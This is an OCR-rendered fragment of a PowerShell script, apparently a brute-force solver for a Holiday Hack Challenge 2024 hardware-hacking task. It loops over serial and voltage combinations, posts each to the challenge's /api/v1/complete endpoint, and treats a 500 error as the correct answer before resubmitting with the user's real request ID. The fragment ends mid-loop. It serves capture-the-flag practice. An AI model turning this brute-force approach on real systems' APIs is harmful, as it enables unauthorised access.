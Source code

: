 ```powershell
            voltage = [int]$voltage
        } | ConvertTo-Json

        Write-Host "`rCombination: $serial - Trying" -NoNewline

        try {
            $response = Invoke-WebRequest -UseBasicParsing -Uri $url `
                -Method "POST" `
                -WebSession $session `
                -Headers @{
                    "authority" = "hhc24-hardwarehacking.holidayhackchallenge.com"
                    "method" = "POST"
                    "path" = "/api/v1/complete"
                    "scheme" = "https"
                } `
                -ContentType "application/json" `
                -Body $bodyJson

            if ($response.Content -eq "true") {
                Write-Host "`rCombination: $serial - Success!" -ForegroundColor Green
                return $true
            }
            return $false
        }
        catch {
            if ($_.Exception.Response.StatusCode.value__ -eq 500) {
                Write-Host "`rCombination: $serial - Found it! (500 error)" -ForegroundColor Yellow
                Write-Host "`nCorrect combination found:"
                Write-Host "Serial: $serial"
                Write-Host "Voltage: ${voltage}V"

                # Prompt for real RID
                Write-Host "`nPlease enter your real Request ID: " -NoNewline -ForegroundColor Cyan
                $realRid = Read-Host

                # Try with real RID
                Write-Host "`nTrying combination with your Request ID..." -ForegroundColor Cyan
                $finalResult = Send-VoltageTest -serial $serial -voltage $voltage -requestId $realRid
                if ($finalResult -eq $true) {
                    Write-Host "Success! The challenge should now be completed!" -ForegroundColor Green
                }
                return "found"
            }
            return $null
        }
    }

    # Try each voltage level
    foreach ($voltage in @("3", "5")) {
        Write-Host "Trying all ${voltage}V combinations..." -ForegroundColor Cyan
        
        # Optimized ranges
        $d1 = 3..0
        $d2 = 9..0
        $d3 = 2..0
        $d4 = 3..0
        $d5 = 1..0
        $d6 = 3..0

        foreach ($i in $d1) {
            foreach ($j in $d2) {
```